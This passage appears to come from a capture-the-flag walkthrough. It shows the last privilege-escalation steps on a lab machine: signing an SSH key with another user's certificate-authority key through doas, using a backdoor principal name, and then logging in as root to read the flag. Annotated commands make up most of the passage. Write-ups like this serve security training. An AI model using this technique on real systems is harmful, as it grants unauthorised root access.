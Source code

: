 ### Step 2
Now that we have a key, we need to sign it:
```bash
# We will use doas to run a command as userca (which we need to do to sign the key with userca's private key)
# -u allows us to specify the user we want to run the command as
# /usr/bin/ssh-keygen is the command we want to run, everything that follows are arguments to ssh-keygen
# -n is the principal we want to include in the certificate.  We got this from the AuthorizedPrincipalsCommand above
# -s is the key we will use to sign the certificate.  This corresponds to the public key specified in TrustedUserCAKeys
# -I is an identity name for the signed key.  This can be whatever you want
# The last argument is the key we want to sign.  This is the key we created in step 1.
doas -u userca /usr/bin/ssh-keygen -n 3m3rgencyB4ckd00r -s /home/userca/ca -I rootkey /tmp/rtkey
```

![sign key](screenshots/11_sign_key.png)

### Step 3
Now all that is left is to try it.  We could copy the key back to our box and try it from there, but it is easier to use the key locally because we do not need the key after we are done.
```bash
ssh -i /tmp/rtkey root@127.0.0.1
```

![SSH as root](screenshots/12_ssh_as_root.png)

Lokos like we got root!  The root flag is in root's home directory.

![root flag](screenshots/13_root_flag.png)
